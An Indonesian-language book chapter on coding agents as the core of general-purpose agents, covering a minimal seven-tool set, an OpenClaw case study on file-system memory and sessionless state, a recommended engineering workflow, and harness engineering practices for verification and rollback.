

# Coding Agent dan Pembuatan Kode

Bab-bab sebelumnya telah membahas rekayasa konteks (Bab 2 dan 3) dan desain alat (Bab 4). Bab ini menggabungkan blok-blok pembangun tersebut untuk menjawab sebuah pertanyaan inti: **Seperti apa arsitektur Agent serbaguna yang mampu menangani tugas-tugas arbitrer?**

Jawabannya adalah: **Agent serbaguna yang menargetkan tugas-tugas terbuka (open-ended)** pada intinya memiliki sebuah **Coding Agent** (sebuah Agent yang secara otonom dapat menulis, memodifikasi, dan mengeksekusi kode) ditambah sebuah **file system** — ruang kerja tempat Agent menyimpan kode, data, memori, dan hasil sementara, mirip seperti seorang programmer mengelola proyek dengan folder-folder di komputer. Dari Manus hingga OpenClaw, Agent serbaguna open-ended yang sukses semuanya mengikuti paradigma ini.

Mengapa pembuatan kode dapat memikul beban ini? Karena ini bukan sekadar alat, melainkan sebuah **meta-capability** — kemampuan untuk menciptakan alat dan kemampuan baru secara dinamis saat runtime. Paruh kedua bab ini mengembangkan konsep ini secara penuh, beserta enam arah penerapannya.

Kode melayani Agent pada dua tingkatan. Sebagai media untuk **berpikir**, kode memaksakan ketelitian — "usia lebih dari 18 tahun dan identitas terverifikasi" dapat memiliki beberapa penafsiran dalam bahasa alami, tetapi jika ditulis sebagai kode ia hanya memiliki satu makna pasti. Sebagai media untuk **berekspresi**, kode yang berjalan adalah buktinya sendiri atas konsistensi logis, dan hasil eksekusinya memberikan standar kebenaran yang objektif.

Bab ini dimulai dengan kemampuan dasar dari sebuah Coding Agent dan arsitektur Agent serbaguna (OpenClaw), kemudian mendemonstrasikan penerapan pembuatan kode dalam berbagai skenario — mulai dari penalaran matematis dan pembuatan konten hingga meta-capabilities tingkat sistem.

## Coding Agent

### Coding sebagai Kemampuan Dasar Agent

**Pembuatan kode bukanlah domain eksklusif dari beberapa Agent khusus, melainkan kemampuan dasar yang harus dimiliki oleh setiap Agent serbaguna.** Dengan model SOTA saat ini, memberikan kemampuan coding dasar kepada Agent tidak memerlukan arsitektur yang rumit.

Pertimbangkan sebuah tugas tipikal: "Rapikan semua sisa komentar TODO di repositori, klasifikasikan berdasarkan prioritas, dan buat *issue*." Untuk menyelesaikannya diperlukan penjelajahan struktur direktori (ls/glob), membaca kode (read), memodifikasi file (edit/write), menjalankan perintah (bash), dan mencari pola (grep/search). Kelima kategori operasi ini mencakup hampir setiap tindakan inti dari sebuah Coding Agent, dan dari sanalah ketujuh alat di bawah ini berasal. Secara ketat, kelima kategori ini secara alami memetakan ke enam alat; yang ketujuh, Code Interpreter, mencakup operasi "eksekusi kode / komputasi" dan dalam beberapa implementasi cukup digabungkan ke dalam Bash — ketujuh alat tersebut merupakan set referensi yang dinormalisasi, bukan pemetaan satu-ke-satu yang kaku ke lima kategori tersebut.

Sebuah Coding Agent dasar hanya perlu dilengkapi dengan tujuh alat inti berikut:

1. **Code Interpreter**: Menyediakan sandbox terisolasi (runtime aman yang terpisah dari sistem host) di mana kode Python dapat berjalan dengan aman tanpa kesalahan eksekusi yang memengaruhi host
2. **Bash Shell**: Mengeksekusi perintah di terminal, seperti menjalankan test case atau memproses file berformat khusus
3. **Read File Tool**: Membaca kode, konfigurasi, dokumentasi, log, dll.
4. **Write File Tool**: Membuat file baru atau menimpa sepenuhnya file yang sudah ada
5. **Edit File Tool**: Melakukan modifikasi parsial pada file yang ada, sebuah operasi inti untuk pemeliharaan dan iterasi kode
6. **Search File Name Tool (Glob)**: Menemukan file target dengan cepat di file system melalui pencocokan pola, misalnya, menggunakan `**/*.py` untuk menemukan semua file Python dalam sebuah proyek
7. **Search File Content Tool (Grep)**: Mencari pola teks spesifik di dalam konten file, misalnya, menemukan semua baris kode yang memanggil fungsi tertentu

Ketujuh alat ini merupakan kotak peralatan yang lengkap namun minimal yang hampir dapat diintegrasikan oleh sistem Agent mana pun dengan biaya rendah. Dalam implementasinya, semuanya dapat diekspos sebagai layanan alat standar melalui protokol MCP yang diperkenalkan pada Bab 4. Perhatikan bahwa toolset ini adalah konfigurasi dasar khusus untuk Coding Agent, berbeda dari lima kategori alat umum (persepsi/eksekusi/kolaborasi/pemicu peristiwa/komunikasi pengguna) yang diklasifikasikan berdasarkan arah pemanggilan dan peran fungsional pada Bab 4 — ketujuh alat inti ini terutama mencakup kategori persepsi dan eksekusi. Bagaimana dengan kolaborasi, pemicu peristiwa, dan komunikasi pengguna? Dalam sebuah Coding Agent, ini biasanya merupakan tugas framework, bukan pada lapisan alat — delegasi sub-agent, misalnya, ditangani oleh logika orkestrasi framework alih-alih oleh alat kolaborasi khusus.

Untuk melihat bagaimana ketujuh alat ini bekerja sama, mari kita ambil tugas yang paling sederhana. Misalkan pengguna berkata, "Bantu saya menyusun daftar semua komentar TODO dalam proyek ini":

```text
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

Seluruh proses ini hanya menggunakan dua alat: Grep (mencari konten) dan Write (menulis file). Jika tugasnya lebih kompleks — seperti "hitung jumlah TODO per modul dan gambarkan diagram batang" — Agent juga akan menggunakan Code Interpreter untuk mengeksekusi kode Python untuk statistik dan pembuatan plot. Ketujuh alat ini sederhana secara individual; namun kombinasinya mencakup berbagai macam tugas yang luar biasa.

Pembaca mungkin bertanya: mengapa tujuh alat, bukan enam? Sebenarnya, satu alat Bash Shell saja sudah cukup. OpenAI Codex hanya menyediakan Bash Shell dan menyelesaikan seluruh operasi baca-tulis file serta pencarian dengan satu alat itu. Meski begitu, sebagian Agent lain tetap mempertahankan alat baca dan tulis file tersendiri. Ketujuh alat dalam buku ini dipisahkan agar pembaca lebih mudah memahami kemampuan dasar yang dibutuhkan sebuah Coding Agent.

Mengapa setiap Agent serbaguna harus memiliki kemampuan coding? Karena pembuatan kode bukan sekadar tentang menulis program — ini adalah cara serbaguna untuk memecahkan masalah. Dihadapkan dengan soal matematika, Agent dapat menulis kode dan menyerahkannya kepada sebuah solver untuk mendapatkan jawaban eksak; dihadapkan pada penetapan aturan bisnis, kode jauh lebih presisi dibandingkan deskripsi bahasa alami mana pun; jika tidak memiliki suatu alat, ia dapat menulisnya saat itu juga; ketika format data berubah, ia dapat menghasilkan logika parsing yang baru. Bagian-bagian selanjutnya akan membahas masing-masing skenario ini secara bergiliran. Sebuah Agent dengan kemampuan coding dasar — bahkan yang hanya dilengkapi dengan tujuh alat sederhana di atas — dapat memperluas kemampuannya kapan pun kebutuhan baru muncul.

### Studi Kasus: Dari Manus ke OpenClaw — Inti Coding dari Agent Serbaguna

Produk Agent serbaguna seperti Manus dan OpenClaw menggabungkan tiga kemampuan utama — Deep Research, Computer Use, dan Coding — dalam satu sistem. Mengapa, lalu, bagian awal bab ini menyebut Coding Agent sebagai inti, bukan salah satu dari dua yang lain?

Karena hampir semua pembuatan konten yang efisien pada akhirnya bermuara pada kode. Presentasi PowerPoint dan dokumen Word pada dasarnya adalah kode dalam format OOXML (Office Open XML, standar terbuka Microsoft untuk dokumen perkantoran). Laporan PDF dapat dihasilkan melalui Markdown, HTML, atau LaTeX; skrip Python dapat melakukan analisis data dan visualisasi; bahkan urutan operasi browser yang berhasil dari pekerjaan GUI dapat ditangkap sebagai kode yang dapat digunakan kembali (lihat Bab 9). Pencarian dan sintesis informasi Deep Research dapat diimplementasikan melalui permintaan web dan parsing yang digerakkan oleh kode. Computer Use lebih serbaguna, tetapi kode langsung atau panggilan API umumnya lebih murah, lebih cepat, dan lebih andal untuk operasi yang setara. Pembuatan kode adalah fondasi kemampuan yang paling efisien, berbiaya terendah, dan paling dapat digunakan ulang.


Mari kita pahami arsitektur ini melalui alur eksekusi konkret. Misalkan pengguna meminta, "Bantu saya menganalisis data penjualan kuartal lalu dan buat laporan ringkasannya":

1. **Read Memory**: Agent membaca `MEMORY.md` dan menemukan bahwa pengguna lebih suka laporan berformat PDF dan sumber datanya adalah Google Sheets
2. **Call Tools**: Memperoleh instruksi penggunaan untuk Google Sheets API melalui modul pencarian web, mengunduh data melalui eksekusi kode
3. **Write Code**: Menghasilkan skrip analisis data dalam Python (agregasi pandas, visualisasi matplotlib)
4. **Generate Artifacts**: Menulis hasil analisis ke `report.pdf`, diagram ke dalam direktori `charts/`
5. **Update Memory**: Mencatat di `MEMORY.md` bahwa "Data penjualan pengguna ada di Google Sheets, ID: xxx," sehingga ia tidak perlu bertanya lagi di lain waktu

Sepanjang proses ini, file system menjadi pusat aliran informasi — memori dibaca dari file, artefak ditulis ke file, dan pengalaman juga disimpan sebagai file.

**File System sebagai Pusat Hub Agent.** Dalam desain OpenClaw, file system jauh lebih dari sekadar penyimpanan data — ia adalah pusat hub untuk memori, pengetahuan, dan kemampuan Agent. Memori jangka panjang Agent disimpan dalam `MEMORY.md` (fakta-fakta tingkat tinggi dan preferensi pengguna) dan log Markdown yang diarsipkan berdasarkan tanggal. Memilih Markdown daripada vector database mungkin tampak berlawanan dengan intuisi, tetapi hal ini sangat efektif: pengguna dapat secara langsung membuka file untuk membaca dan memodifikasi memori Agent (jika Agent salah mengingat sesuatu, cukup hapus baris tersebut), Markdown secara alami menjaga urutan kronologis untuk menghindari kebingungan temporal dalam semantic retrieval, dan ia mendukung kontrol versi serta rollback melalui Git.

Lebih krusial lagi, karena Agent dapat menulis file, ia memiliki sarana teknis untuk memodifikasi artefak eksternalnya sendiri. Ketika sebuah Agent melakukan suatu tugas untuk pertama kalinya dan menemukan informasi penting yang sebelumnya tidak diketahuinya—misalnya, ketika menelepon bank tertentu, ia mengetahui bahwa bank tersebut memerlukan alamat cabang untuk verifikasi identitas—ia dapat terlebih dahulu menuliskan penemuan tersebut ke dalam sebuah catatan. Menentukan kapan catatan semacam itu cukup untuk menjadi pengetahuan yang andal, sebuah instruksi, atau sebuah program, masih memerlukan trajektori tambahan dan validasi hasil. Ini adalah masalah evolusi berkelanjutan yang dibahas pada Bab 9.

**Batas Penerapan: Agent Mana yang Menjadikan Coding sebagai Arsitektur Intinya.** Kesimpulan bahwa "Coding Agent adalah inti dari Agent serbaguna" terutama berlaku untuk **Agent serbaguna yang menargetkan tugas open-ended** — skenario seperti deep research, pembuatan konten, dan pemrosesan data, ketika batas tugas tidak pasti dan bentuk artefak beragam. Dalam skenario ini, tidak mungkin mencantumkan semua alat yang diperlukan di awal; pembuatan kode, sebagai sebuah meta-capability, menyediakan jalur paling ekonomis untuk memperluas batas kemampuan secara dinamis, sehingga menjadi inti arsitektur. Sebaliknya, Agent layanan pelanggan domain vertikal beroperasi dalam ruang tugas yang relatif tertutup, dengan arsitektur inti yang dibangun di sekitar proses bisnis tetap, alat domain, dan strategi dialog; di sana, kode adalah alat di dalam kotak peralatan, bukan pusat arsitektur. Namun, bahkan pada yang terakhir ini, coding tetap merupakan kemampuan dasar yang penting: perhitungan presisi, pemrosesan data, dan verifikasi aturan semuanya bergantung padanya.

Selanjutnya, kita membahas dua desain — mode interaksi "always available" dan arsitektur keamanan — yang pada pandangan pertama mungkin tampak tidak terkait dengan topik Coding Agent. Namun, keduanya secara langsung menentukan bagaimana Agent mengelola lingkungan eksekusi kode dan status file system, yang merupakan perhatian inti dari sebuah Coding Agent. (Pembaca yang ingin memahami terlebih dahulu bagaimana sebuah Coding Agent bekerja selangkah demi selangkah dapat melompat ke bagian "Alur Kerja Keseluruhan dari sebuah Coding Agent" dan kembali ke sini untuk desain interaksi dan keamanan.)

OpenClaw mengadopsi desain **Sessionless**: pengguna tidak perlu menginstal atau masuk ke sebuah aplikasi, atau membukanya sebelum setiap interaksi; Agent selalu online, dan pengguna dapat mengirim pesan kapan saja melalui platform perpesanan yang sudah mereka gunakan untuk mendapatkan respons — paradigma interaksi ini dan Gateway perutean pesan serta arsitektur event-driven yang mendasarinya telah dibahas secara rinci di bagian alat komunikasi pengguna pada Bab 6 dan tidak akan diulangi di sini. Yang patut ditekankan adalah prasyarat agar paradigma ini berfungsi: model besar telah cukup matang untuk berfungsi sebagai jenis "fondasi cerdas" yang baru — mirip dengan bagaimana sistem operasi tradisional mengabstraksi perangkat keras dan menyediakan antarmuka terpadu untuk aplikasi lapisan atas, model besar mengabstraksi kompleksitas pemahaman bahasa, penalaran, dan perencanaan, memberikan abstraksi cerdas terpadu untuk Agent lapisan atas. Justru karena fondasi inilah paradigma "selalu online + respons instan" dapat direkayasa dengan biaya rendah.

Untuk sebuah Coding Agent, tantangan rekayasa utama dari operasi sessionless adalah **mempertahankan lingkungan eksekusi kode dan status file system lintas pesan**. Dua pesan pengguna mungkin terpisah beberapa menit atau beberapa hari, dan pekerjaan Agent bergantung pada sejumlah besar status implisit: paket yang diinstal di dalam sandbox, direktori kerja dari sesi terminal dan variabel lingkungan, server pengembangan latar belakang, dan file yang baru ditulis sebagian. Pendekatan OpenClaw adalah mengelola status dalam dua lapisan. **Status file system pada dasarnya bersifat persisten** — direktori ruang kerja di-mount pada penyimpanan persisten di luar sandbox, sehingga kode, data, dan artefak perantara bertahan lintas pesan dan restart sandbox; ini adalah makna lain dari "file system sebagai pusat hub Agent." **Status proses tetap dipertahankan atau dibangun kembali sesuai permintaan** — sandbox dan sesi terminalnya tetap berjalan selama periode aktif untuk menghindari cold-start, masuk kembali ke direktori kerja, dan mengaktifkan kembali lingkungan virtual untuk setiap pesan; mereka dihancurkan setelah batas waktu tidak aktif (idle timeout) untuk mendapatkan kembali sumber daya, namun sebelum dihancurkan, status lingkungan yang dapat diserialisasi (direktori kerja, variabel lingkungan, daftar tugas latar belakang) dicatat di file ruang kerja, dan Agent membangun kembali dari catatan-catatan ini pada saat bangun (wake-up) berikutnya. Sesi terminal persisten yang dibahas di bagian "State Persistence in the Command Execution Environment" di bab ini adalah padanan dari mekanisme ini di dalam sebuah tugas tunggal; Sessionless memperluas masalah yang sama ke skala waktu yang membentang lintas pesan dan hari.

Sessionless tidak berarti bebas pemeliharaan — setiap pesan pengguna memerlukan **pemuatan ulang (reloading) trajektori lengkap dan status kerja**, yang memberikan nilai tinggi pada serialisasi status yang efisien dan strategi trajectory-compression yang efektif; prinsip desain dari trajectory compression telah dibahas di bagian "Context Compression Strategies" pada Bab 2, sementara bab ini berfokus pada pertukaran (trade-off) rekayasa yang dipaksakan oleh arsitektur Sessionless.

### Alur Kerja Keseluruhan dari Coding Agent


**Dokumentasi Proyek.**

Pekerjaan Coding Agent dimulai dengan pemahaman sistematis tentang proyek tersebut. Ketika Agent pertama kali menemui sebuah repositori kode, pekerjaan pertamanya bukan mulai memodifikasi kode melainkan membangun kerangka kognitif untuk keseluruhan proyek—seperti halnya insinyur baru tidak langsung mendorong (push) kode pada hari pertama, melainkan memulai dengan mempelajari seluk-beluknya. Agent memulai dengan memeriksa apakah proyek tersebut memiliki dokumentasi—README, dokumen desain arsitektur, panduan pengembang.

Jika dokumen utama tidak ada, Agent tidak boleh mulai bekerja secara membabi buta. Ia harus secara sistematis memeriksa basis kode, mengidentifikasi modul utama, abstraksi inti, dan dependensi komponen, dan merancang ikhtisar arsitektur, panduan direktori, dan instruksi untuk menjalankan tes. Dokumen-dokumen ini berfungsi sebagai cetak biru untuk pekerjaan Agent selanjutnya dan memberikan titik masuk (entry point) bagi pengembang lain. Ini mewujudkan sebuah prinsip utama: eksternalisasi pengetahuan adalah prasyarat untuk kolaborasi yang efisien.

Dokumentasi proyek kini memiliki bentuk khusus untuk Agent: **File Instruksi Proyek (Project Instruction Files)**. File seperti CLAUDE.md, AGENTS.md, .cursorrules telah menjadi standar industri secara de facto—file tersebut disuntikkan secara otomatis ke dalam konteks pada awal setiap sesi, bertindak sebagai system prompt di tingkat proyek. Tidak seperti README yang ditujukan untuk pembaca manusia, file instruksi membawa konvensi perilaku untuk Agent: perintah build dan tes ("gunakan `pnpm test` daripada `npm test`"), gaya kode ("hindari tipe `any`"), dan zona terlarang yang jelas ("jangan modifikasi direktori `migrations/`"). Ini adalah ide yang sama dengan `SOUL.md` dari OpenClaw (mendefinisikan identitas dan aturan perilaku Agent) dan `MEMORY.md` (mengakumulasi pengalaman lintas sesi), yang diterapkan pada tingkat yang berbeda: SOUL.md mendefinisikan "siapa Agent itu," sementara file instruksi proyek mendefinisikan "bagaimana bekerja dalam proyek ini." Dari perspektif rekayasa konteks di Bab 2, file instruksi juga merupakan stable prefix yang paling ekonomis—kontennya tidak berubah dengan tugas, menjadikannya secara alami ramah KV Cache; ini juga merupakan implementasi paling langsung dari prinsip bahwa "pengetahuan harus ada di dalam basis kode itu sendiri."

Prinsip eksternalisasi pengetahuan juga memiliki konsekuensi logis (corollary) yang menarik: **Tim yang ramah terhadap kerja jarak jauh sering kali juga ramah terhadap AI Agent.** Tim jarak jauh (remote) terpaksa bergantung pada komunikasi dan dokumentasi asinkron—keputusan dicatat dalam dokumen, konteks hidup dalam deskripsi masalah (issue) dan PR, pengetahuan tribal terakumulasi dalam panduan pengembang alih-alih diwariskan dari mulut ke mulut di meja sebelah atau di papan tulis ruang konferensi. Ini persis seperti bentuk pengetahuan yang dapat dikonsumsi Agent: sebuah Agent tidak dapat membaca kesepakatan lisan, tetapi ia dapat membaca dokumen desain. Sebaliknya, tim yang berjalan pada sistem "tanya saja orang yang duduk di sebelah saya" membebankan biaya onboarding yang curam yang sama pada Agent seperti pada karyawan jarak jauh baru. Sebuah proksi sederhana untuk "kesiapan AI (AI-readiness)" dari sebuah tim: bisakah pendatang baru jarak jauh bekerja secara independen dengan tidak ada yang lain selain repositori kode dan dokumentasinya?

**Pemahaman Tugas dan Klarifikasi Persyaratan.**

Untuk persyaratan sederhana dengan batasan yang jelas dan dampak terbatas—seperti memperbaiki bug yang diketahui atau menyesuaikan parameter fungsi—Agent dapat langsung melanjutkan ke fase implementasi. Namun, sebagian besar tugas dalam pengembangan perangkat lunak tidak sesederhana ini.

Untuk persyaratan yang kompleks, Agent harus lebih berhati-hati dan metodis. Kompleksitas dapat muncul dari berbagai dimensi: ambiguitas dari persyaratan itu sendiri (pengguna tahu apa yang mereka inginkan tetapi tidak dapat mengungkapkannya secara tepat), keragaman jalur implementasi (beberapa solusi teknis dengan trade-off-nya sendiri), atau luasnya dampak (membutuhkan modifikasi pada beberapa modul, berpotensi merusak fungsionalitas yang ada). Agent harus mengklarifikasi batasan melalui penelitian eksploratif dan secara proaktif terlibat dalam dialog dengan pengguna bila perlu. Sebagai contoh, ketika pengguna meminta untuk "mengoptimalkan kinerja sistem," Agent pertama-tama perlu menentukan tujuan spesifik (mengurangi waktu respons, mengurangi penggunaan memori, atau meningkatkan throughput), trade-off mana yang dapat diterima (misalnya, apakah peningkatan kompleksitas kode dapat diterima), dan di mana letak bottleneck saat ini. Mulai membuat kode saat persyaratan masih samar sering kali mengarah pada pengerjaan ulang yang signifikan.

**Menulis Dokumen Desain.**

Dokumen desain adalah jembatan yang menerjemahkan persyaratan abstrak menjadi rencana implementasi yang konkret. Dokumen tersebut harus menjawab empat pertanyaan inti: modul mana yang harus dimodifikasi dan mengapa, pendekatan mana yang harus dipilih dan apa trade-off yang ditimbulkannya, dependensi baru mana yang dibutuhkan, dan dampak apa yang diharapkan dari perubahan tersebut pada sistem. Menulis dokumen desain itu sendiri merupakan pemikiran yang mendalam—hal ini memaksa Agent untuk secara konseptual memvalidasi kelayakan suatu solusi sebelum berinvestasi besar-besaran dalam pengkodean. Yang lebih penting lagi, dokumen desain memberikan titik intervensi yang efisien bagi manusia—meninjau dokumen desain yang ringkas jauh lebih mudah daripada meninjau ratusan baris kode. Setelah menyelesaikan dokumen desain, Agent harus mengirimkannya untuk ulasan pengguna dan menunggu persetujuan sebelum melanjutkan.

**Implementasi dan Pengujian Kode.**

Setelah mendapatkan persetujuan desain, Agent mengikuti konvensi kode proyek untuk implementasi, menggunakan kembali abstraksi dan alat yang ada, dan melakukan refactoring tingkat menengah (moderate refactoring) bila perlu untuk menjaga kesehatan basis kode.

Setelah implementasi, Agent segera memasuki fase jaminan kualitas berbasis pengujian (test-driven)—menulis kasus uji untuk fungsionalitas baru atau yang dimodifikasi, mencakup jalur normal, kondisi batas, dan skenario kesalahan. Setelah menulis tes, Agent mengeksekusi test suite. Jika tes gagal, Agent tidak boleh sekadar melaporkan kegagalan tersebut kepada pengguna, melainkan harus menganalisis penyebabnya, menemukan masalahnya, dan memodifikasi kodenya sampai semua tes lulus. Siklus "test-fix" ini mungkin memerlukan beberapa iterasi, dan kemampuan mengoreksi diri inilah yang mengangkat Coding Agent dari pembuat kode menjadi asisten rekayasa yang andal. Sebaliknya, cara paling umum di mana Coding Agent bermalas-malasan adalah melompati tahap ini sepenuhnya—menulis kode dan melaporkan "tugas selesai" tanpa pernah menjalankan tes. Mendefinisikan "tes lulus," bukan "kode ditulis," sebagai kriteria penyelesaian justru merupakan prinsip Loop Engineering untuk membiarkan verifikasi memutuskan kapan saat yang aman untuk berhenti, yang diterapkan pada pengkodean.

Meskipun semua tes lulus, pekerjaan Agent belum selesai. Fase selanjutnya adalah code review: Agent secara kritis memeriksa kode yang dihasilkannya sendiri. Apakah dapat dibaca dan diberi komentar secara memadai? Apakah ada masalah performa yang tersembunyi atau kerentanan keamanan? Apakah ia mengikuti gaya kode dan praktik terbaik dari proyek? Ulasan mandiri ini dapat dilakukan dengan membaca kode, menjalankan lint tools, atau memanggil sub-agent ulasan kode yang berdedikasi. Jika ulasan menemukan masalah, Agent harus kembali ke fase modifikasi dan memperbaikinya, alih-alih mengirimkan kode yang cacat kepada pengguna.

**Sinkronisasi dan Pengiriman Dokumentasi.**

Jika perubahan kode melibatkan perubahan arsitektural—seperti memperkenalkan modul baru, mengubah dependensi antarmodul, atau mengubah semantik dari abstraksi inti—Agent perlu memperbarui dokumentasi arsitektur sebagaimana mestinya. Dokumentasi yang kedaluwarsa lebih buruk daripada tidak ada dokumentasi karena hal itu menyesatkan pengembang di masa mendatang. Dengan memperbarui dokumentasi secara otomatis setelah setiap perubahan signifikan, Agent membantu menjaga integritas dan ketepatan waktu basis pengetahuan proyek.

Alur kerja ini mewujudkan prinsip-prinsip inti rekayasa perangkat lunak: perencanaan mendahului tindakan, verifikasi berjalan di seluruh tahapan, dan dokumentasi berkembang seiring dengan kodenya.

Perhatikan bahwa proses yang dijelaskan di atas adalah **alur kerja rekayasa yang direkomendasikan**. Coding Agent di dunia nyata (seperti Claude Code dan Codex) memangkasnya sesuai kebutuhan: tugas perbaikan bug sederhana melewati pembuatan dokumen desain, sedangkan hanya tugas yang kompleks dan berdampak luas yang menjalani setiap tahap secara penuh.

Model yang berbeda memangkas alur kerja ini dengan cara yang berbeda. Beberapa model Coding membaca struktur repositori, implementasi, pemanggil, dan pengujian secara luas sebelum edit pertama. Yang lain hanya memeriksa beberapa berkas yang paling mungkin relevan, membuat patch lebih awal, dan memperlakukan umpan balik kompilator serta pengujian sebagai bagian dari investigasi. Ambang untuk memutuskan kapan berhenti mengumpulkan informasi dan mulai bertindak ini dapat tetap mengikuti model setelah harness berubah, dan dapat berubah ketika model diganti di dalam harness yang sama. Karena itu, hal ini terutama merupakan **perilaku model yang dipelajari**, bukan sekadar gaya antarmuka produk Coding. Prompt, alat, dan anggaran dalam harness masih dapat memperkuat atau menekannya, tetapi tidak harus menjadi sumbernya. Bab 7 mengukur perbedaan ini dalam harness yang tetap; Bab 8 kemudian menjelaskan bagaimana post-training dapat menuliskan kebijakan semacam itu ke dalam parameter.

### Harness Engineering dalam Praktik untuk Coding Agent

Bab 1 memperkenalkan konsep Harness Engineering dan formula **Agent = Model + Harness**. Harness di sini mencakup konteks dan alat dari formula inti, serta kendala, verifikasi, dan mekanisme koreksi—kelima elemen ini bersama-sama membentuk Harness yang didefinisikan dalam Bab 1. Coding Agent mungkin merupakan ranah di mana Harness Engineering memberikan hasil yang paling maksimal—penulisan kode adalah tugas Agent yang **paling dapat diverifikasi**, dan kendala, verifikasi, dan koreksinya semua dapat bersandar pada infrastruktur yang ada. Bagian ini berfokus pada praktik konkret dalam skenario Coding Agent.

Apakah suatu sistem berjalan dengan stabil sering kali tidak begitu bergantung pada kekuatan model melainkan lebih kepada ketangguhan infrastruktur yang dibangun di sekitar Agent. Bab 1 membagi Harness menjadi dua lapisan—**Konteks dan Alat** (memungkinkan Agent untuk bertindak) dan **Kendala, Verifikasi, dan Koreksi** (membantu Agent bertindak dengan aman dan benar). Dalam skenario Coding Agent, ini diterjemahkan menjadi komponen rekayasa tertentu:

- **Garis Dasar Penerimaan (Acceptance Baseline)**: Apa yang dimaksud dengan "selesai"—test suites, CI pipeline (Continuous Integration pipeline, serangkaian pemeriksaan yang dijalankan secara otomatis setelah penyerahan kode), standar code review
- **Batas Eksekusi (Execution Boundary)**: Apa yang dapat dan tidak dapat disentuh oleh Agent—batas modul, aturan dependensi, kontrol izin
- **Sinyal Umpan Balik (Feedback Signals)**: Penilaian kebenaran otomatis—output Linter (alat pengecekan gaya kode yang dapat secara otomatis menemukan kesalahan pemformatan dan masalah potensial), hasil tes, kesalahan type checking
- **Mekanisme Rollback (Rollback Mechanism)**: Bagaimana memulihkan jika terjadi kesalahan—Git version control, isolasi sandbox, snapshot rollback

**Mengapa Coding Agent Sangat Cocok untuk Harness Engineering.**

Dua dimensi — seberapa jelas tujuannya, dan seberapa terotomasinya verifikasi — membagi tugas menjadi empat keadaan (states). Tujuan yang jelas dengan hasil yang dapat diverifikasi secara otomatis adalah wilayah di mana Agent berkembang pesat; tujuan yang jelas yang penerimaannya masih bergantung pada mata manusia membatasi throughput pada kecepatan peninjauan manusia; umpan balik (feedback) otomatis dengan tujuan yang tidak jelas membiarkan sistem berjalan secara efisien ke arah yang salah; kurangnya keduanya, Agent tidak ada gunanya. Tabel 5-1 menunjukkan keempat keadaan ini. Tujuan dari Harness adalah untuk mendorong sebanyak mungkin tugas ke dalam kuadran "tujuan yang jelas + verifikasi otomatis".

Tabel 5-1 Empat Kuadran Kejelasan Tugas dan Otomatisasi Verifikasi

| | Hasil dapat diverifikasi secara otomatis | Hasil memerlukan verifikasi manual |
|---------|--------------------------------------------|------------------------------------------|
| **Tujuan yang jelas** | *Sweet spot*: memperbaiki *bug* dengan *test cases* | Dibatasi oleh *throughput*: *code refactoring* memerlukan tinjauan manual |
| **Tujuan yang samar** | Keluar jalur secara efisien: mengoptimalkan "kualitas kode" dengan *linter* | Sulit untuk memulai: "buat UI terlihat lebih baik" |

Tugas penulisan kode secara alami menempati kuadran "tujuan yang jelas + verifikasi otomatis"—*test suites* memberikan kriteria penerimaan yang jelas, *linters* dan *type checkers* menawarkan verifikasi otomatis instan, dan Git menyediakan kontrol versi dan kemampuan *rollback* yang sempurna. Hal ini menjelaskan mengapa Coding Agents saat ini adalah yang paling matang di antara semua jenis Agent: bukan karena model generasi kode sangat kuat, tetapi karena infrastruktur *software engineering* selama beberapa dekade secara alami membentuk Harness yang kuat.

**Praktik Industri.**

Tiga studi kasus praktik Harness mengonfirmasi prinsip-prinsip di atas:

- **Kasus migrasi kode skala besar** (dari praktik migrasi kode skala besar yang dibagikan secara publik oleh sebuah perusahaan teknologi besar): Kuncinya bukanlah kekuatan model, melainkan Harness yang melakukan tiga hal dengan benar—pengetahuan harus ada di dalam *codebase* itu sendiri (apa yang tidak dapat dilihat oleh Agent berarti tidak ada), batasan dikodekan ke dalam *linters* dan CI daripada ditulis dalam dokumentasi, dan verifikasi serta koreksi sepenuhnya diotomatisasi secara *end-to-end*.
- **LangChain**: Secara signifikan meningkatkan kinerja tugas *benchmark* hanya dengan mengoptimalkan Harness (System Prompts, *tool middleware*, putaran verifikasi mandiri). Yang patut dicatat adalah metodologi "menggunakan Agent untuk menganalisis lintasan kegagalan untuk meningkatkan Harness," mengubah rekayasa Harness dari berbasis pengalaman menjadi berbasis data.
